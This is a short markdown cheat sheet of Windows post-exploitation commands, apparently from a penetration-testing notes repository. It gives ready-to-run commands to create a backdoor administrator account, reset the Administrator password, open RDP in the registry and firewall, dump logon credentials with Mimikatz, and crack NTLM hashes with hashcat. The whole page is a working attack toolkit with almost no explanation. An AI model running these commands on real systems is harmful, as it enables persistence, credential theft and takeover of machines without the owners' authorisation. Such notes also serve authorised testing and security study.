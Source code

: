 # 08 - Windows post-exploit and AD

Index
- [Useful commands](#Useful-commands)
- [Mimikatz](#Mimikatz)

## Useful commands
Add admin user:
``` cmd
net user myuser Password1! /add 
net localgroup administrators myuser /add
```

Reset local Administrator password
``` cmd
net user Administrator Password1!
```

Enable RDP:
``` powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

## Mimikatz
Get NTML hash and crack it:
``` bash
# mimikatz command
privilege::debug
sekurlsa::logonpasswords

# hashcat cracking
hashcat -m 1000 user.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```